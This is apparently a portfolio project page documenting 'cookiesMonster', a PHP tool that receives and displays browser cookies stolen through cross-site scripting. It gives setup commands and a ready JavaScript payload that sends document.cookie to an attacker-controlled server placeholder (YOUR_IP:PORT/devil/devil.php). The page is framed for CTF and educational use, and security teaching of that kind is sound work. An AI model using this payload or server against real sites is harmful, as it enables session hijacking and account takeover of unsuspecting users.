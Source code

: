 ```yaml
---
layout: page
title: cookiesMonster 🍪
description: A tool to collect cookies and show them in a web page. 
img: assets/img/projects/cookiesmonster/cookiesmonster.jpg
importance: 1
category: fun
related_publications: false
---
```


<div>
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/projects/cookiesmonster/cookiesmonster.jpg" title="CookiesMonster" class="img-fluid rounded z-depth-1" %}
    </div>
</div>



## Documentation 📖

This tool is to collect cookies via logs with XSS.

### Install requiriments 🔭

First you need to start the requiriments, you just need `php8.3`.

~~~bash
sudo apt install php8.3
~~~

#### Run the server 🏃

To run the server you need to be in the main directory of the project to then run the server with `PHP`.

```bash
php -S localhost:3333
```


### Collecting cookies 🗡️

You need to know how to do XSS Attacks to use this tool in a correct way, you have to add this URL `http://YOUR_IP:PORT/devil/devil.php?i=` to your script and then add the cookies, for example:

```js
new Image().src='http://YOUR_IP:PORT/devil/devil.php?i='+document.cookie;
```

Then you will have the cookie in the file `cookies.txt` and it will be displayed in the web page.


### cleaning cookies 🗑️

To clean cookies you just need to add an space the `cookies.txt` file, you can use this command:

```bash
echo " " > devil/cookies.txt
```


## DISCLAIMER ⚠️

This tool is for educational and CTF use only.
The author is not responsible for illegal use.
Unauthorized access is a crime in most countries and may carry legal penalties.
Use responsibly and only with proper permission.


---
# REFERENCE

- Project: [cookiesMonster](https://github.com/j4f3th/cookiesMonster)
---
